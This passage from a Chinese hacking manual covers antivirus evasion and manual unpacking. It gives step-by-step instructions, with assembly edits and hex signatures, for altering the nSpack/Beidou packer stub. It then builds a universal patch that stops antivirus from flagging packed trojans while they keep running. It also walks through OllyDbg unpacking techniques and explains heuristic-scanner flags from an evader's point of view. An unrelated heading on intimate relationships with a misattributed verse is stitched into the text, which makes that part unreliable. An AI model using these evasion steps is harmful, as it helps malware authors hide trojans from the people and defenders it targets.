要想制作通用的补丁，我们的最终目标就是寻找壳的特征，为了比较壳本身代码的特征范围，这里我们要准备两个文件，他们之间的体积一定要比较悬殊，这样更容易发现壳本身的特征。除此之外其中一个文件一定要能被杀毒软件查杀，这样有利于我们验证修改后的效果。

我准备的是一个 707KB 的 NBSI 与一个 108KB 的强行删除工具 killbox，其中的 NBSI 会被杀毒软件查杀。我们先分别将这两个工具加壳，然后再分别用 OllyDbg 加载这两个文件，找出他们的相同之处。通过简单的比对可知这两个程序的前 500 条指令基本是一样的，只有极个别的跳转与传送指令有异，因此可以忽略不计。这就意味着前 500 条指令便是我们的舞台，既然我们可以在这么大的范围内修改，可想而知机会还是很多的。

对于壳的修改来说，我们首先要搞清楚怎样修改能达到预期的效果，以及怎样在多种修改方案中取舍，只有这样才能使我们对自己的修改结果感到满意。如果你想修改壳的特征，那么就应该在靠近入口点处修改，例如上一小节所讲述的修改方法。但是如果你想修改壳的计算流程，那么就应该修改一些跳转或调用指令，以及带借进位的运算。根据这个壳来说首先应该更改壳的特征：

- 一是因为修改特征比较容易；
- 二是对我们以后的修改还可以打下一点基础。

为了便于验证，我们使用加了壳的 NBSI 来做实验。为了能有效的将壳的特征破坏掉，我们在靠近文件的入口点处，将第 4 行与第 5 行分别改为：

```asm
004B2547    B8 F9FFFFFF      mov eax,-7            ;传送值 -7 给 eax
004B254C    03E8             add ebp,eax           ;将 ebp 与 eax 相加，结果传送给 ebp
```

改动之前的指令如图 7.11 所示，由图可知我将原来的赋值语句 `mov eax,7` 给改成了 `mov eax,-7`，因为 eax 马上在下面就会被调用，所以我又将下面那句加法指令给改成了减法指令，其实只是在做加减法的小把戏而已。这样更改后虽然可以欺骗 PEID，但是欺骗不了杀毒软件的，所以我们还要进行一些更为大胆的修改！

继续往下看，在第 18 行看到了一个 sub 指令，并且在第 20 行还有一个 add 指令，如图 7.12 所示，下面我们就把它们分别改为：

```asm
004B2571    1B95 69FEFFFF    sbb edx,dword ptr ss:[ebp-197]
..........
004B257D    1195 99FEFFFF    adc dword ptr ss:[ebp-167],edx
```

其中 sbb 是带借位的减法运算，adc 是带进位的加法运算，只要上述运算不进位或借位的话修改就会成功。修改完之后如图 7.13 所示，我们保存一下，运行后可知程序功能正常，而且已经不会被杀毒软件所查杀了。

但是有的读者或许会感到困惑，你为什么知道要更改这两句就一定管用呢？其实这就是汇编底子与经验的结合了。我粗略的看了一下程序的前 500 行指令，发现其中有很多的跳转指令，这就意味着我们应该尽量在第一个跳转前做有效的修改，因为我们不能确定在那个跳转之后的指令有哪些会被执行，而哪些则不会被执行，所以我此时的注意力就主要集中在了前 50 行指令里。在这 50 行指令中有两个跳转，而且第一个“je”跳转前有一条比较指令“cmp al,0”，我们知道 je 的意思是等于则跳，也就是说如果“cmp al,0”成立的话就会跳转到第 16 行指令，否则的话就会执行下面那个大跨度跳转，如图 7.14 所示。我一开始修改的其实是第 6 条指令“add ebp,eax”，将其修改成了“adc ebp,eax”，但是保存后程序不能运行，因此才尝试的第 18 行指令。由我的思路可知，我们很难一次就能完成修改的，但是我们坚持尝试下去就一定会成功，特别是对于经验缺乏的初学者来说。


## 7.4.2.2 提取壳的特征数据

壳已经修改成功，接下来我们就开始制作补丁了。不知道大家学过网上的教程没有，网上介绍的打补丁方法大多数都不是通用的，也就是说制作出来的补丁并不是什么情况下都能用，只能适用于有限的范围之内，这无疑给我们免杀工作带来很大的负面影响。为了避免这种情况，下面我就教大家怎样制作出具有良好通用性的补丁。

想要制作出具有良好通用性的补丁，首先要做的就是提取壳的特征，也就是在加过壳的文件中提取出能判定这个壳的特征字符，例如 PEID 就是利用这种方法来判定壳的种类的。

我们通过上面的操作可以得知两个程序已经加了北斗的壳，而且知道修改哪些地方后壳就不会再被查杀。有了上面的信息，我们开始通过这两个程序提取特征码，现在用 OllyDbg 打开那两个加过壳且没有修改过的程序，如图 7.15 所示。通过以上的修改信息可知，我们所修改的最后一条指令为第 19 行，因此分别将这两个程序从入口点开始的前 20 条指令复制出来，如图 7.16 所示，将其粘贴到记事本中后，再将前面的地址信息与后面的反汇编信息去掉，只保留中间的 HEX 信息，如图 7.17 所示，然后将空格与换行符去掉，最后得到如下数据：

“killbox[加壳后].exe”提取出来的 16 进制码：
`9C60E80000000005DB80700000002BE88DB5AEFEFFFF8A063C0074128BF58DB5D6FEFFFF8A063C010F8442020000C606018BD52B956AFEFFFF89956AFEFFFF01959AFEFFFF`

“nbsi[加壳后].exe”的 16 进制码：
`9C60E80000000005DB80700000002BE88DB5ADFEFFFF8A063C0074128BF58DB5D5FEFFFF8A063C010F8442020000C606018BD52B9569FEFFFF899569FEFFFF019599FEFFFF`

我们找出其中的不同之处，不同的地方用“?”代替，得出如下 16 进制码：
`9C60E80000000005DB80700000002BE88DB5A?FEFFFF8A063C0074128BF58DB5D?FEFFFF8A063C010F8442020000C606018BD52B956?FEFFFF89956?FEFFFF01959?FEFFFF`

现在回到 OllyDbg，粗略的查看一下，发现不同之处多为如下指令：

| 地址 | HEX数据区 | 反汇编 |
|---|---|---|
| 0041D89D | 8DB5 AEFEFFFF | lea esi,dword ptr ss:[ebp-152] |
| 0041D8AB | 8DB5 D6FEFFFF | lea esi,dword ptr ss:[ebp-12A] |
| 0041D8C0 | 2B95 6AFEFFFF | sub edx,dword ptr ss:[ebp-196] |
| 0041D8C6 | 8995 6AFEFFFF | mov dword ptr ss:[ebp-196],edx |
| 0041D8CC | 0195 9AFEFFFF | add dword ptr ss:[ebp-166],edx |

不难发现 HEX 数据区的前 4 个字节都为操作指令，后面的 8 位为操作数，而且两个程序的不同之处正是这些操作数，因此为了保证补丁的通用性，我们还要将后面的 8 位操作数用“?”代替，替换完毕后的加壳特征如下所示：
`9C60E80000000005DB80700000002BE88DB5????????8A063C0074128BF58DB5????????8A063C010F8442020000C606018BD52B95????????8995????????0195????????`

现在再将修改好的“nbsi[修改后].exe”的 16 进制码提取出来，如下所示：
`9C60E80000000005DB8F9FFFFFFF03E88DB5ADFEFFFF8A063C0074128BF58DB5D5FEFFFF8A063C010F8442020000C606018BD51B9569FEFFFF899569FEFFFF119599FEFFFF`

我们再将这段 16 进制码与上面的加壳特征做比对，并将不同之处替换到加壳特征中，处理完毕后得到的最终加壳特征如下所示：
`9C60E80000000005DB8F9FFFFFFF03E88DB5??????????8A063C0074128BF58DB5??????????8A063C010F8442020000C606018BD51B95????????8995????????1195????????`

加粗的字体即为后来替换进去的（“F9FFFFFFF03”、B95?前边的“1”和195?的“1”为替换进去的内容），现在我们已经将最终加壳特征完美的提取出来了。


### 7.4.2.3 制作通用补丁

现在我们打开 CodeFusion Wizard，这是一款制作补丁的软件，打开后如图 7.18 所示。我们可以根据自己的喜好填写一下版权信息，填写完毕后点击“下一步”进入下一个界面。下面我们点击界面中“需补丁的文件”后的“+”号，如图 7.19 所示；在弹出的界面中点击“所有文件按钮”，以保证补丁的通用性，如图 7.20 所示。然后再点击“需补丁的数据”后的“+”号，弹出如图 7.21 所示的对话框，并点击其中的“查找与替换”按钮，弹出如图 7.22 所示的界面，并点击左下角的“普通查找与替换”按钮。

接下来将我们提取出来的加壳特征复制到图 7.23 所示的“数据[查找]”栏中，并将最终加壳特征复制到图 7.23 所示的“数据[置换]”栏中。为了保证补丁的通用性，“开始偏移(S):”后面的信息不用填写，保持默认即可，最后填写效果如图 7.24 所示。最后点击“下一步”按钮进入最后一个页面，并点击其中的“创建 Win32 可执行程序!(M)”即可成功创建补丁，如图 7.25 所示。

我们用创建的补丁处理一下其他使用北斗加壳的木马后，发现 PEID 识别不了，杀毒软件也不查杀了，而且木马依然运行良好！到此，我们的改壳免杀就讲完了，这个方法正是受到古罗马讽刺诗人 Juvenal 的启发才想到的，“谁来保卫卫兵自己呢？”没错！这是一个多么完美的启示？将一直被利用、被破解的壳修改一下、武装一下，竟然收到了如此的效果，因此我们不得不感叹思维的重要性。


### 7.5 手工脱壳技巧

讲到现在，相信读者们一直都在想脱壳的问题，虽然第三章所讲的工具脱壳法已经可以满足日常的需要，但是这样大家在脱壳方面永远都不会有什么实质性的提高，所以这一节我就带领大家一起学习手工脱壳的技术。


图 7.24 图 7.25

可以说手工脱壳还是有一定的难度与技术含量的，但是目前我所能讲的仅限于比较常用的手工脱壳技巧。如果大家对破解与逆向工程感兴趣的话，这些仅仅是一个开始，但也是一个重要的开始。

#### 7.5.1 手工脱壳基础

对于我们现阶段的读者来说，手动脱壳的基础就是获得 OEP，而获得了 OEP 后你就离成功不远了。但是究竟什么是 OEP？我们又怎样才能找到 OEP 呢？OEP（Original Entry Point）也叫做初始入口点，它是应用程序开始运行的地方，加壳的应用程序执行到此处，就会将它本身的节开始还原并映射到内存中，我们的脱壳也正是运用了这个原理。

而对于 OEP 的“相貌”来说，是需要个人经验的，我在这里只能简单的为大家介绍一下：
- 首先要告诉大家一个好消息，大部分的 OEP 都是以 `push ebp` 开头的，如图 7.26 所示。
- 当然还有例外，例如 VB 6.0 程序的 OEP 一般就是先将 “vb5!6&vb6chs.dll” 这个 DLL 文件压栈开始的，如图 7.27 所示。
- 而 Borland C++ 一般就是以一个跳转开始的，而且 16 进制表示始终为 “EB 10”，如图 7.28 所示。

其实这些 OEP 都是很好总结的，大家自己可以多找一些无壳的或是已脱壳的程序，然后分别用 OllyDbg 载入，并观察它们的入口点，这样很容易就会总结出数量可观的 OEP 类型。知道了这些，就可以开始我们刺激的手工脱壳之旅了！


图 7.26

图 7.27

图 7.28

#### 7.5.2 SFX 自解压法脱壳

SFX 自解压法实际上应该不算是什么手动脱壳，因为它几乎是由 OllyDbg 自动完成的。既然全靠 OllyDbg，那自然要对其进行一些设置。

我们打开 OllyDbg 后依次选择其菜单栏中的“选项”→“调试设置”，如图 7.29 所示。在弹出的窗口中我们选择“SFX”选项卡，并选择其中的“块方式跟踪真正入口（不一定准确）”单选框，如图 7.30 所示，然后点击“确定”按钮保存设置。下面再用 PEID 检查一下我们将要脱壳的文件，发现程序的加壳信息为“什么都没找到*”，但是从 PE 段的信息看来这是一个疑似北斗的壳，如图 7.31 所示。

OllyDbg 打开此程序后不需任何操作它就会自动跟踪，一直到如图 7.32 处停止，由后面的提示信息不难发现，OllyDbg 已经帮我们找到入口点了。接下来我们右键单击入口点，在弹出的菜单中选择“用 OllyDump 脱壳调试进程”，如图 7.33 所示，最后在弹出的对话框中点击“脱壳”按钮完成脱壳，如图 7.34 所示。脱壳完毕后经测试发现程序运行正常，到此我们的第一次手动脱壳就结束了。但是结束之前不要忘了将 OllyDbg 设置回原来的状态，养成一个良好的习惯，这样有利于我们以后的实验。怎么样？其实手动脱壳也不像你想象的那么难吧？


图 7.29

图 7.30

图 7.31

图 7.32

图 7.33

图 7.34

#### 7.5.3 出口标志法脱 dePack 壳

现在先打开一个已加壳文件，如图 7.35 所示，很明显这个跳转并不是我们真正需要的东西，因为它跳向了对于我们不可见的地址，难道在有意隐藏什么吗？不用急，我们的 OllyDbg 无所不能！

现在可以考虑用 OllyDbg 动态跟踪一下，我们先单步步过，看它能跳到哪里。OllyDbg 里的单步步过快捷键为“F8”，当然你也可以单击如图 7.36 所示的按钮执行此操作。按一次 F8 后来到如图 7.37 所示的地方，看到第一条指令为 `pushad`，意思是将 EAX，ECX，EDX，EBX，ESP，EBP，ESI，EDI 依次压入堆栈。如果壳要想让原程序正常运行，就要在将运行流程交给原程序前保证堆栈平衡，因此我们可以简单的推断一下，在壳将运行流程交给原程序之前就一定要再将其弹出栈，也就是 `popad`。因此只要我们找到 `popad`，便走到了壳的最后，同时意味着我们离原程序的入口点就不远了。


图 7.35


既然已经理清了思路，我们就马上开始吧：
1. 单击右键后在弹出的菜单中依次选择“查找”→“所有命令”，如图 7.38 所示。
2. 然后在弹出的对话框中输入我们要查找的命令 `popad`，如图 7.39 所示。
3. 单击“查找”按钮后我们发现查找到了两条 `popad` 指令，如图 7.40 所示。

由于我们无法得知哪一个才是真正最后的出栈指令，所以只能一个个地排查。先双击第一处 `popad` 来到如图 7.41 所示的地方，按一下 F8 单步步过，很容易地就来到了我们的 OEP 处，如图 7.42 所示，看来我们还是非常幸运的！最后右键单击 OEP，在弹出的菜单中选择“用 OllyDump 脱壳调试进程”，并在新窗口中点击“脱壳”按钮即可成功脱壳。

有的读者可能会有些迷茫，要判定壳的最后出栈地址是不是需要很强的汇编功底啊？其实是没什么的，而且依我的经验来看，大多数壳最后的出栈地址都为 `popad`，因此各位读者直接用 OllyDbg 搜索 `popad` 也未尝不可。等到自己接触过汇编语言后自然会很容易明白这些的，学习是需要过程的，不是吗？


#### 7.5.4 单步跟踪法脱壳

还记得笔者第一次学习脱壳时就是学习的单步跟踪法吗？此方法的最大特点就是重复性工作比较多，但是比较简单，所以一些书都喜欢把它放在第一位来讲，但是我认为单步跟踪法虽然简单，但是由于操作繁琐，难免会将一些读者“跳蒙”。这里我先给各位读者一个单步跟踪法的基本要领，用一句话概括就是“用 F8 单步步过壳部分指令，遇到回跳就用 F4 躲过，一直跳到 OEP 处。”具体的操作步骤请大家看我的演示，脱壳之前首先要查壳，这样会做到心中有底，而且在你熟悉了脱壳的基本步骤后，对于某些壳是有捷径可走的，当然这些还要读者自己下去勤加练习才能总结出来。

用 PEID 查到的壳信息为“UPX 0.89.6 - 1.02 / 1.05 - 1.24 (Delphi) stub -> Markus & Laszlo”，因此可以断定这是一个 UPX 的壳，下面用 Ollydbg 加载这个程序，如图 7.43 所示。


图 7.43

加载完毕后停在壳的入口点 0x004B1AC0 上，我们按 F8 来到 0x004B1AC1 处，也就是壳入口点的下一条指令处，再按 4 次来到 0x004B1AD7 处。看到这里的读者应该明白了吧，其实 F8 的作用就是一个指令一个指令的运行程序。在这里我们发现下面是一个跳转，如图 7.44 所示，但是这是一个向下跳的跳转，依照我们基本要领来做，由于这不是往回跳的跳转，所以继续按 F8 单步步过。步过后再按两次 F8 键再次来到一个跳转处，由于这个跳转是往回跳的，因此我们不能让它跳，用鼠标点击选择这个跳转的下一条指令，然后按 F4 键执行到此处，如图 7.45 所示。


图 7.44

但是我们为什么不让它回跳呢？因为回跳不仅浪费我们的时间，而且有时候还会碰到循环跳，就是循环个几十次甚至上百次也是正常的，那岂不要将我们累死？这里要特别提醒一下，虽然循环跳是非常浪费精力的，但是有时也是必需的，在你跟踪不到 OEP 的情况下你就应该试着跟踪部分循环了。另外有些书上说循环就是无止境的跳来跳去，这是错误的，如果这样的话那就成了死循环了，这个程序也就无法正常运行了。再次按 N 个 F8 键后，我们来到如图 7.46 所示的地方，可以看见我们已经步入到了一个跳转中，而且这个跳转恰好指向了一个向上的跳，因此我们再次按 F8 单步步过到那个跳转处，再用鼠标点击它下面的指令，然后按 F4 执行到此处，如图 7.47 所示。


图 7.45


图 7.46


图 7.47

## 第七章 免杀与脱壳

就这样，遇到回跳的话就用 F4 跳过，否则就 F8 一直跟踪。到最后我们来到了如图 7.48 所示的地方，在这里我们看到了熟悉的 popad 指令，这证明壳在执行到此处后就已经结束了，而且在这不远处就有一个无条件跳转 jmp，因此可以大胆地猜测这就是跳往原程序 OEP 的跳转了。由于遇到了一个回跳，很自然的，我又用老办法 F4 跳过了，直接执行到 0x004B1C39 处，但是很不幸，如果我们执行到这里，这个程序就会停掉！所以我们在跳过时要连这个 call 一起跳过，直接执行到 popad 处，如图 7.49 所示。然后按 2 次 F8 来到程序的真正入口点如图 7.50 所示。最后用老办法，右键选择“用 OllyDump 脱壳调试进程”脱壳。


图 7.48


图 7.49


图 7.50

通过本小节的学习，不知道各位读者是否找到了一些手工脱壳的感觉？不过如果想要熟练应用的话是需要多多练习才可以的。

#### 7.5.5 经典的 ESP 定律脱壳

想要学习 ESP 定律脱壳，就要先了解 Ollydbg 各个窗口的名称与作用，这样有利于我们的后面的学习。打开 Ollydbg 后，我们会看到如图 7.51 所示的窗口，它们的功能如下：

- 反汇编窗口：显示被调试程序的内存地址、HEX 信息与反汇编代码等内容。
- 寄存器窗口：显示当前已加载进程的 CPU 寄存器内容。
- 信息窗口：与反汇编窗口协同工作，显示反汇编窗口中某一个命令的参数以及注释里的信息。
- 数据窗口：显示内存或文件的内容。
- 堆栈窗口：显示当前进程的堆栈。
- 命令行窗口：用于输入命令。

知道了各个窗口的作用，我们开始脱壳了。首先使用 PEID 查壳，得到的信息为“nSpack V2.x -> LiuXingPing *”，因此可以判定这是一个北斗的壳。下面我们用 Ollydbg 载入这个程序，并按一下 F8 单步步过，由于执行了 pushfd 压栈指令，所以我们发现右边 ESP 的数值发生了变化，如图 7.52 所示。记下 ESP 的值 0x0012FF88，并在命令行窗口输入命令“dd 0012FF88”后按 Enter 键，如图 7.53 所示。这时我们发现数据窗口的内容变为了这样，如图 7.54 所示，接下来在数据窗口中的地址 0012FF88 上单击右键，在弹出的菜单中依次选择“断点”→“硬件访问”→“字”，然后按 F9 运行程序，停在如图 7.55 所示的一个跳转上，这个跳转就是跳往 OEP 的了，所以我们再按一次 F8 就跳到了 OEP 处，如图 7.56 所示。最后“用 OllyDump 脱壳调试进程”脱壳即可。


通过上面的讲解不难发现 ESP 定律脱壳的操作还是比较简单的，但是它的原理并不简单，由于这不属于本书的讨论范围，所以就不多做介绍了，有兴趣的读者可以自己到网上搜索一下。

#### 7.5.6 最后一次异常法脱壳

依然是老习惯，脱壳前用 PEID 查壳，查得信息为“PEncrypt 4.0 Gamma / 4.0 Phi -> junkcode [Overlay]”。因为用 PEncrypt 加壳的程序不是很常见，所以我已将本节所讲的例子程序打包到光盘中了；各位读者可以到光盘中找来练手。为了我们后面的脱壳能成功，这里要对 Ollydbg 做一些设置，打开 Ollydbg 依次选择其菜单栏中的“选项”→“调试设置”，并将“异常”选项卡下的对勾全部去掉，最后点击“确定”按钮保存设置。其实所谓的最后一次异常法，就是先将 Ollydbg 设置为不忽略所有异常，然后按【Shift】+【F9】快捷键运行程序，一般情况下程序不会直接运行，否则的话就不能使用这个方法脱壳。如果按一次快捷键程序不运行，那么就接着按，直到程序运行为止。

我们要记住按快捷键的次数，然后再重新载入程序，如果上一次按了 4 次快捷键程序运行，那么这次就按 3 次，也就是第二次载入要比第一次少按一次快捷键，按完后观察堆栈窗口，我的堆栈窗口如图 7.57 所示。我们在反汇编窗口中找到“SE 处理程序”数值栏中保存的地址 004261F4，如图 7.58 所示，我们在这里按 F2 设下一个断点，然后按【Shift】+【F9】快捷键运行程序到此处，再次按 F2 取消这里的断点。接下来我们开始单步跟踪，一直跟踪到如图 7.59 所示的地方，可以看见一个十分可疑的程序模块入口与两个寄存器出栈指令，其中的 popad 为典型的壳出口。这句“00426226 BB A2244000 mov ebx,Cacheset.004024A2”代码就是将我们的疑似入口点地址传送给了 ebx，紧接着下面一个“push ebx”将其压入栈，由此推断如果我们的猜测正确的话，下面的那个 retn 就会将我们带入 OEP。我们带着这个思路大胆地 F8 单步步过到 retn 后，果然到了程序的入口点！如图 7.60 所示，最后“用 OllyDump 脱壳调试进程”脱壳即可，而且经过测试后程序运行正常，在结束之前不要忘记将 Ollydbg 改回原来的状态，如图 7.61 所示。


#### 7.5.7 内存镜像法脱壳

这次我们要脱一个被 MaskPE 加壳的程序，既然我们已经知道了壳的种类，所以就不用再劳驾 PEID 了。用 Ollydbg 载入程序后停在了如图 7.62 所示的地方，按快捷键【Alt】+【M】调出内存显示窗口，选中第一个 PE 文件头标志下包含代码的区段，并按 F2 下断点，如图 7.63 所示。然后按快捷键【Shift】+【F9】运行到断点处，我们再按【Alt】+【M】回到内存显示窗口后发现刚才设的断点已经被清除了，接下来在“.text”区段用 F2 下一个断点，如图 7.64 所示。然后按快捷键【Shift】+【F9】运行到断点处，如图 7.65 所示。

我们发现第 5 行有一个 popad 指令，这便是壳的出口了，紧接着的那个 retn 应该就是将我们带入 OEP 的返回指令了。接下来我们用 F8 单步跟踪，遇到回跳就用 F4 跳过，最后执行到 retn 后果然到了 OEP。用 OllyDump 脱壳后发现程序运行无误，我们又一次脱壳成功了！


图 7.65

#### 7.5.8 模拟跟踪法脱壳

首先用 PEID 查到的壳信息为“FSG 1.31 -> dulek/xt”，因此可以断定这是一个 FSG 的壳。接下来用 Ollydbg 载入程序后按快捷键【Alt】+【M】调出内存显示窗口，并找到包含“SFX、输入表、资源”的无名区段并记下地址，如图 7.66 所示。得到地址 0x00426000 后在命令行窗口输入命令“tc eip<00426000>”，如图 7.67 所示。然后按回车让 Ollydbg 自动模拟跟踪，这个过程根据机器配置与壳的强度不同，需要的时间也不尽相同，我的酷睿双核 2.1GHz 处理器加 4G 内存的笔记本需要 40 余秒才能跟踪到 OEP 处，所以在跟踪时要有耐心，跟踪完毕后便会到达 OEP 处，如图 7.68 所示。用 OllyDump 脱壳后发现程序运行无误，收工！


图 7.66


图 7.67


图 7.68

#### 7.5.9 非完美脱壳后的程序修复

有时我们脱壳后的程序并不能正常运行，运行程序时会出一些稀奇古怪的问题，这时我们就要考虑脱壳后的修复了。脱壳修复我们要用到一款名叫 Import Reconstructor（以下简称 Import）的修复工具。现在运行已脱壳程序，然后系统弹出了错误提示，这时不要管它，直接运行 Import 找到刚才的那个进程，如图 7.69 所示。

接下来点击“IAT 自动搜索”按钮；搜索成功后会弹出如图 7.70 所示的窗口。根据程序的提示我们点击“获得输入表”按钮后程序运行状况如图 7.71 所示，最后点击“获得输入表”旁的“修理 Dump”按钮选择我们已运行的那个脱壳程序保存即可，如图 7.72 所示。但是即便如此，有时我们修复过的文件还是不能运行，这时我们可以用 LordPE 重建一下 PE 文件即可，如图 7.73 所示。


图 7.69


图 7.70


图 7.71


图 7.72


图 7.73

本章节到此就结束了，我们从认识壳到将壳应用到免杀，从修改壳到常见的手工脱壳技巧，带领着各位读者在壳的海洋中畅游了一番。但是即便如此，我们所涉及到的也仅仅是加壳脱壳领域中很小的一个边角，真正的冰山其实仍然隐藏于水下，努力学习吧！

# 亲密关系：爱、欲望与平衡艺术

> “夏可柏的恋爱观”

树木朝树冠伸展，
花朵朝恋爱伸展。

—— Titus Livius

杀毒与反查杀以后将向何处发展？对于最新的查杀方法黑客们又是怎样躲过的？黑客技术怎样发展才能与查毒软件进行有效的对抗？“未知”与“不明白”似乎注定要占据着人类绝大多数的思维发散过程，对于不明白的事物我们就没有能力去有效地控制它。如果它是不能被有效控制的，那么它对于我们来说就是可怕的。因此各位读者想要深入并长期地研究下去，那么战胜这种恐惧是必须的，因为书本上不可能很好地向你交代最新查杀与反查杀技术的动态，更不可能随时教你去利用它、分析它，因此各位读者需要做的就是大胆向前走。本章虽然介绍了一些最新的免杀方法与珍贵杀毒软件资料，但是它无法使你的知识保持最新。我所能做的就是以本章的内容作为垫脚石，使得各位读者能从一个比较高的起点出发，战胜恐惧，让我们一起开始吧！

### 8.1 杀毒与免杀技术的发展

杀毒与免杀就像是一场拉锯战，谁都很难轻易取得胜利。就目前的情况来看，主动防御技术正被各大杀毒软件所追捧。目前各大杀毒软件也都逐渐采用安全套装方式（即：反病毒软件、软件防火墙与 HIPS 技术的结合），伴随着各大杀毒软件技术的不断突破与国内杀毒软件技术的日益成熟，主动防御技术的发展已经趋于尾声，因此有关于主动防御的内容已经成为了免杀的热门话题。然而免杀目前所取得的突破还不足以与杀毒软件所抗衡，原因就在于杀毒软件在这次角逐中第一次赢得了主动地位。当然，除此之外技术门槛也是很重要的一个影响因素，因为看似深不可测的 Ring0 层编程技术并不是每一位黑客技术爱好者都能掌握的。

单就杀毒软件来讲，在最终的技术发展目标上必然会落后于病毒，因为杀毒软件的发展方式为“发现问题”→“分析问题”→“解决问题”，因此它一直被病毒（问题）牵引着走。所以从某些方面来看，病毒未来的发展方向，就是杀毒软件的发展方向。我们就拿现在最火的主动防御来说，它的工作原理就是挂钩系统底层的 SSDT（System Service Dispatch Table，系统调用调度表）从而隐藏杀毒软件在注册表中的重要键值、以及对系统进程及文件读写的监控等等。因此从技术层面讲，杀毒软件所应用的技术已经与恶意软件完全相同了，如果这么讲大家仍然感觉没有什么概念的话，各位可以回想一下木马的无进程、无端口、无文件、无服务、无注册表项等等是怎么实现的。很显然这些是不可能真正消失的，事实上这些信息仍然存在，只不过它们被隐藏了而已。

如果黑客们想打赢这场战争，就必然要将突破主动防御的方法大众化。就目前看来，对于大众化的解决方法不是很多，一是开发出突破主动防御的木马，例如邪恶八进制的飙骏就是很好的一个例子，通过这样的木马可以很好的将问题重心转移，使战场回到特征码免杀的层次上，想想当年的 SQL 注入就很好的应用了这个思想。另外就是开发突破主动防御的壳，通过感染使木马程序具备突破主动防御的功能。但是不论采用哪种方案，这场战争的所有压力几乎都会被高层黑客所分担，只有他们的无私奉献才能在下一次角逐到来之前保持住一些优势。但是不得不深思的问题是，每一次新的角逐到来之后，都会使网络安全整体的技术层次拉高一大截，因此导致现在学习黑客技术也越来越难。虽然这是技术发展所导致的一种必然现象，但是也不得不承认网络安全厂商很聪明，他们似乎在有意使问题逐渐复杂化。

讨论到现在，这个问题的接力棒已经被重新送回到黑客手中，因为这一切都是他们引发的，而且整个事件也正在被他们所引导。随着网络与系统的日益完善，各种简单的漏洞与 BUG 已经一去不复返，唯有期待新技术的出现，以使自己重新有文章可做。就目前的情况看来，软件的智能化已经备受瞩目，所以很容易地就可以推想出其技术必然也会被病毒与木马所利用，因此下一代病毒与木马的发展很有可能会走智能化这条路，也许下一代的病毒将采用人工智能技术，它们的智能除了来自于程序本身以及网络上特定站点外，还会通过使染毒电脑进行一些运算从而使自己更加强大！到时候病毒的自我变异与自我优化也许会成为最基本的功能，鉴于病毒的智能性，也许他们会学会与其它种类的智能病毒共享例如存在漏洞主机的 IP 或电子邮件地址等信息，或是互相学习对方的感染方法！这种病毒也许还会自动劫持部分网络用户的安全升级信息，并反馈回恶意代码。因此，杀毒软件也必然会向智能化发展，目前比较有前瞻性的科研组织已经预测到了这一点，正像我第 3.1.5 节所讲的那样，智能化的扫描器已经在实验研发中了。

### 8.2 启发式杀毒原理

启发式杀毒也叫做启发式分析（Heuristic analysis），是一种可以识别未知病毒的扫描技术，因此启发式分析的扫描器在原理上是不需要病毒库的支持的。就目前看来，启发式分析的扫描器所面临的最大障碍就是解决虚警问题，因为这会浪费用户的时间与精力，从而使用户不得不抛弃这种产品。但是随着技术的发展，启发式分析很有可能成为未来扫描器领域中的几个主角之一，虚警问题也必将会随着人工智能的应用而降低到可以忽略的程度。因此，研究启发式杀毒原理对于一个黑客来讲是十分必要的。

#### 8.2.1 启发式杀毒原理

其实启发式扫描器所利用的原理就是“公共标准”原则，例如理论上说大家的身体结构都在一个正常的区间范围之内，如果有其中一项超出了正常值，例如他长了 15 根手指，那么也许说明不了什么，因为只是 1 项超标而已，但是如果他有 10 项超标的话，那么就要怀疑它是否仍然还是人类了。除此之外，启发式扫描还引入了程序特定行为的特征检测，例如一个正常程序中不应该包含隐藏格式化所有硬盘的命令，如果包含了，那么它肯定是非常值得怀疑的。鉴于个别编译器的应用面比较广，而且 PE 文件结构恰恰又是一种非常优秀的文件格式，所以现在存在于 Windows 世界中的应用程序都具有一定的相似之处。因为这些编译器编译出来的程序是不可能出现一些奇怪的结构性问题的，例如某个文件如果出现了两个文件头，那么它肯定是值得怀疑的，而如果它还存在某些破坏性强的执行动作的话，那么它就更加可疑了。这种基于文件结构特征的判定方法便称之为结构检查法（Structural checking）。与此相配合的，就是启发式扫描器用于检查可疑代码组合的检查项目，叫做启发性标志（Heuristic flags），它是一组启发式检测中可用的一些判断标志，并通过设定一个权值来判定是否应该报警，例如当在一个文件中发现某个启发性标志符合的情况下，杀毒软件就会报警，或是在发现多少个启发性标志符合时报毒等等。启发性标志的定义是否能有效地检测出病毒，与定义标志的工作人员是否很好地了解病毒具体的感染手段密切相关，因此在病毒不断发展与变化的同时，各个启发性标志所占权值的比重与启发性标志的有效数量都在发生着变化。因此看来，启发式分析必须选择一个合适的权值，来使发现病毒能力与虚警误报之间取得一个折中的效果，除此之外还要定义出足够科学的启发性标志组合。关于权值，它实际上就是一个对启发式能力进行控制的参数，而且针对不同类型的病毒，肯定是需要完全不同的规则来构建启发式扫描器的判断逻辑，因此一个恒定不变的权值是很难胜任这项工作的，但是如果使权值可以随意改变，又会使启发式扫描器的可信度大大降低。因此，启发式扫描技术虽然是一个成功而有富有潜力的扫描手段，但是它还未完全成熟，这无疑给我们免杀爱好者未来的发展带来了更大的变数。

#### 8.2.2 启发性标志详解

就目前看来，比较常用的启发性标志有10余个，而且每款支持启发式扫描的杀毒软件都有几个自己“独特”的启发性标志，但是某些应用比较广泛的启发性标志则是每款支持启发式扫描的杀毒软件都应该拥有的。鉴于反病毒学术领域的封闭性，很难详细地对每个启发性标志作出有效的了解。下面我就根据启发性标志的重要性着重介绍几个，以便于各位读者能更加详细地了解启发式杀毒原理，揭开启发式扫描的面纱。对于其中涉及到的一些关于文件结构的术语，我会尽量为大家解释清楚。

- **1. 区段头部的可疑属性**
在前面章节中已介绍了PE文件结构，相信大家对区段（节）的概念已经不再陌生了，因此也应该了解所有的区段都有一个权限属性来控制这些区段的读写。在PE文件中，控制这些属性的其实是一个叫做Characteristic的字段的值，Characteristic字段共有10种标志位，分别代表诸如“区段中包含代码”、“区段中包含已初始化数据”与“可读属性”、“可写属性”等常用属性。但是根据区段的作用不同，它所需要的属性也不相同，所以一些特定的区段也就拥有了自己的默认属性。例如代码区段（.code）需要有一个“可执行”的属性，但不需要有“可写”的属性，因为数据与可执行的代码之间是分开的。然而由于病毒的特征，病毒体所在的区域只有“可写”标志，或是同时拥有“可执行”与“可写”标志，这两种情况显然都是可疑的，而且有时病毒在感染时并未成功设置Characteristic字段，因此导致Characteristic字段的值为空，这肯定也是可疑的。

- **2. 可疑的代码重定向**
